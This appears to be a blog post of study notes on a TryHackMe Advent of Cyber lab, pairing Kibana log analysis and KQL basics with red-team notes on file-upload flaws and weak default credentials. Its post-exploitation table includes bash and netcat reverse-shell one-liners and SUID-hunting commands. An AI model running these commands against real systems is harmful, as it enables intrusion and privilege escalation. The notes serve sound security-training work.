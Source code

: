 ```yaml
---
title: Post 63 - Twice in three days
date: 2024-12-07
tags:
    - log analysis
    - elastic
    - elk
    - kql
    - rce
---
```

## Task 9, Day 3 `Log analysis` Even if I wanted to go, their vulnerabilities wouldn't allow it.
### Operation Blue
Log analysis is crucial to blue-team work.  
    ELK: Elasticsearch, Logstash, and Kirbana  
    
ELK combines data analytics and processing tools to make log analysis manageable. Forms dedicated stack to aggregate logs from multiple sources into central place. Today starts with Kibana Discover interface.  
    - Index pattern: Collection of logs. Could be from single host or multiple hosts with similar purpose, i.e. web servers.  
    - KQL: Kibana Query Language - Language for searching documents for values. Semi-similar to Splunks SPL (Search Processing Language).<br>

    | Query/Syntax | Description | Example |
    | --- | --- | --- |
    | " " | Search for specific values. *Exact* search. | "TryHackMe" |
    | * | Wildcard for similar matches to value provided | United* (returns United Kingdom and United States) |
    | OR | Shows documents that contain *either* value provided | "United Kingdom" OR "England" |
    | AND | Shows documents that contain *both* values provided | "Ben" AND "25" |
    | : | Search a specific field in the document. Field availability<cr>depends on fields available in document. | ip.address: 10.10.10.10 |

Can filter out noise by selecting/unselecting certain fields. Adding fields just applies correct KQL syntax through GUI. Can also filter specific values in fields by clicking field in left pane and adding/removing with `+/-`. Can click and drag on timeline to select time covered in search. 

### Operation Red
#### Unrestricted File Uploads
Without the website confirming things like file type, size, file contents it can open door for attacks on webserver.  
    - RCE: Uploading a script that the server runs giving control to the attacker.  
    - XSS: Uploading HTML file containing XSS code to steal a cookie and send it back to attacker's server.  

#### Usage of Weak Credentials
One of the easiest paths of attack is weak or default creds. Common weak.default creds attacker might try:

    | Username | Password |
    | --- | --- |
    | admin | admin |
    | administrator | administrator |
    | admin@domainname | admin |
    | guest | guest |

#### RCE and Web Shells
Post vulnerability exploitation commands to try:

    | Command | Use |
    | --- | --- |
    | ls | Gives idea of files and directories around you |
    | cat | Outputs contents of documents like text files |
    | pwd | Gives idea of where in system you are |
    | whoami | Lets you know who you are |
    | hostname | System name and potentially its role |
    | uname -a | System info like OS, kernel version, etc. |
    | id | Shows any groups current user is assigned to |
    | ifconfig | Network setup info |
    | bash -i >& /dev/tcp/<br>'<your-ip>/'<port> 0>&1 | Begins reverse shell via bash |
    | nc -e /bin/sh '<your-ip> <port> | Begin reverse shell via Netcat |
    | find / -perm -4000 -type f 2>/dev/null | Finds SUID files, useful for privesc |
    | find / -writable -type f 2>/dev/<br>null '| grep -v "/proc/" | Find files with writable permissions |

### The Task
Investigate attack in Kibana to answer blues questions, then recreate attack to answer red questions. Had to watch the end of the video to get my shell going.

### Recommended Stuff
Advanced ELK queries room(?).

